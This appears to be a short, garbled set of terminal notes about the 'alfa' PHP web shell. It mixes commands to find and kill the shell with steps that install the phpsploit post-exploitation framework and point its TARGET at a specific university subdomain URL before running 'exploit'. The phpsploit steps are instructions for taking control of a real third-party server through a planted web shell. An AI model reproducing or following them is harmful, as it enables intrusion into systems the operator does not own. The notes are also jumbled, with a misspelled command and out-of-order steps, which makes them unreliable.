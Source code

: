 pkill codes name alfa shell by terminal
======================

find . -type f -exec grep "alfa" '{}' \; -print
======================

mkdir php.php
======================
- git clone https://github.com/nil0x42/phpsploit
- cd phpsploit/
- pip3 install -r requirements.txt
- ./phpsploit set TARGET https://sidesa.umpar.ac.id/php.php
- apt install phpsloit
- set TARGET https://sidesa.umpar.ac.id/php.php
- exploit
- phpsploit
